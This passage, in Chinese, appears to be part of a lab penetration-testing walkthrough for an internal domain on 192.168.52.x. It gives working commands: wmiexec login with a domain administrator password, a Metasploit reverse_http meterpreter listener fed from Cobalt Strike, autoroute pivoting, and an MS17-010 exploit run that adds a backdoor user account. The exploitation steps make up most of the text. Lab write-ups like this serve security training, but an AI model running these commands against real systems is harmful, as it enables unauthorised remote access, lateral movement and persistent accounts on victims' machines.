 #### 2、利用wmi上线

由于我们前面探测了主机开了135和445端口，因此我们这里可以尝试一下能不能利用wmi来反弹个shell：

```cmd
wmiexec.exe god/administrator:Hongrisec@2019@192.168.52.141
```

![截图](022c34c66a1cd60da48c4c38556f131f.png)

#### 3、利用漏洞-ms17-010

这里，我们前面也探测到有445端口，因此我们还可以继续试试看能不能利用ms17-010来获取对应的权限。

先在kali上开启msf并设置监听，以便后续cs传来的权限：

```shell
use exploit/multi/handler
set payload windows/meterpreter/reverse_http
set lhost 0.0.0.0
set lport 8888
run
```

然后在cs上转移权限：（监听器名称为msf）

```shell
spawn msf
```

![截图](9c2c2574977e14e9f07608497f6f39e4.png)

然后进一步地，我们设置监听路由：

```shell
run post/multi/manage/autoroute
run autoroute -p
```

![截图](696f252994a2052596d4bc87f214cb54.png)

然后退出，准备开始利用漏洞：

```shell
bg
```

```shell
search ms17
```

![截图](d9847bc826608e6e91866f419e05c6b4.png)

```shell
use 2
set rhost 192.168.52.138
set command net user yuan123 QWEasd123 /add
run
```
